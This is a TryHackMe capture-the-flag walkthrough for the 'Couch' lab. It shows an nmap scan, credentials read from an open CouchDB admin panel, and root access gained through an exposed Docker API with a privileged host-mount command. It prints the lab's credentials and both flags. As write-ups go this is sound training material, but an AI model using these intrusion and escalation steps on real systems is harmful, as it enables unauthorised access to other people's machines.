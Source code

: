 ## Couch - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/couch)

**IP: 10.10.164.5**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan.

  ```
  nmap -sC -sV -T5 -p- 10.10.164.5

  PORT     STATE SERVICE VERSION
  22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
  |   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
  |_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
  5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
  |_http-title: Site doesn't have a title (text/plain; charset=utf-8).
  |_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- This will cover first 4 questions. Now, I started googling `couchdb administration panel` and found this nice [article](https://guide.couchdb.org/draft/tour.html).

- Then, I visited `_utils` and got access to admin panel. In `secret` section you can find credentials. Make sure you do `source view`.

  ```
    {
     "_id": "a1320dd69fb4570d0a3d26df4e000be7",
     "_rev": "2-57b28bd986d343cacd9cb3fca0b20c46",
     "passwordbackup": "atena:t4qfzcc4qN##"
  }
  ```
  
- Now, login with SSH and get those flags!

---

## 🧍 User Privilege Escalation

- First flag is already there, moving to escalation.

  ```
  atena@ubuntu:~$ pwd
  /home/atena
  
  atena@ubuntu:~$ ls -al
  total 48
  drwxr-xr-x 6 atena atena 4096 Dec 18  2020 .
  drwxr-xr-x 3 root  root  4096 Oct 24  2020 ..
  -rw------- 1 atena atena 3171 Dec 18  2020 .bash_history
  -rw-r--r-- 1 atena atena  220 Oct 24  2020 .bash_logout
  -rw-r--r-- 1 atena atena 3771 Oct 24  2020 .bashrc
  drwxr-xr-x 3 root  root  4096 Oct 24  2020 .bundle
  drwx------ 2 atena atena 4096 Oct 24  2020 .cache
  drwx------ 2 root  root  4096 Oct 24  2020 .gnupg
  drwxrwxr-x 2 atena atena 4096 Dec 18  2020 .nano
  -rw-r--r-- 1 atena atena  655 Oct 24  2020 .profile
  -rw-r--r-- 1 atena atena    0 Oct 24  2020 .sudo_as_admin_successful
  -rw-rw-r-- 1 atena atena   22 Dec 18  2020 user.txt
  -rw-r--r-- 1 root  root   183 Oct 24  2020 .wget-hsts
  
  atena@ubuntu:~$ cat user.txt 
  THM{1ns3cure_couchdb}
  ```

---

## 👑 Root Privilege Escalation

- Since I was already in `/home/atena`, I checked `.bash_history` file, and guess what I found?

  ```
  atena@ubuntu:~$ cat .bash_history 

  [SNIP!]
  sudo -s
  docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
  uname -a
  exit
  ```
  
- Someone is using docker. So here, I tried my basic exploits but they didn't work. In order to escalate to root, well... just run the same command from `.bash_history` file LULZ. Just wait few seconds after running it.

  ```
  atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
  / # whoami
  root
  / # id
  uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
  ```

- That's all folks, bye!

---

## 🏁 Flags

- **User Flag**: `THM{1ns3cure_couchdb}`
- **Root Flag**: `THM{RCE_us1ng_Docker_API}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much, just finding my way around web admin panel.`

- What did I learn?
  `New web admin panel and another docker exploit.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
